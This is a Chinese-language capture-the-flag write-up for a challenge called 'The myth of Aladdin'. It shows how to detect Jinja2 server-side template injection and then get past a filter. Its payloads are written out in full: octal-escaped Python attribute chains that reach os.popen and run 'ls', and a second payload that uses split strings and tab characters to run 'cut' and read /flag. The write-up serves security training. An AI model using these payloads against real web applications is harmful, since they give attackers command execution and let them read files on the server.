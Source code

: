 # The myth of Aladdin

> 知识点: SSTI 模板注入, 八进制绕过, cut 截断读取文件
>

探测是否存在 SSTI

```
{%print(7-5)%}
```

然后测试发现禁用了很多类, 可以使用双引号, 尝试后发现八进制可以注入

```
{%print(()["\137\137\143\154\141\163\163\137\137"]["\137\137\142\141\163\145\137\137"]["\137\137\163\165\142\143\154\141\163\163\145\163\137\137"]()[95]["\137\137\151\156\151\164\137\137"]["\137\137\147\154\157\142\141\154\163\137\137"]["\137\137\142\165\151\154\164\151\156\163\137\137"]["\137\137\151\155\160\157\162\164\137\137"]("o""s")["\160\157\160\145\156"]("ls")["\162\145\141\144"]())%}
```

可以注入后读取根目录的 flag, 发现不能直接读取, 尝试用 cut 截断数组带出

```
{%print(()["\137\137\143\154\141\163\163\137\137"]["\137\137\142\141\163\145\137\137"]["\137\137\163\165\142\143\154\141\163\163\145\163\137\137"]()[95]["\137\137\151\156\151\164\137\137"]["\137\137\147\154\157\142\141\154\163\137\137"]["\137\137\142\165\151\154\164\151\156\163\137\137"]["\137\137\151\155\160\157\162\164\137\137"]("o""s")["\160\157\160\145\156"]("c""ut%09-c%092-40%09/fl""ag")["\162\145\141\144"]())%}
```

结果

![20210424161605584](img/20210424161605584.png)
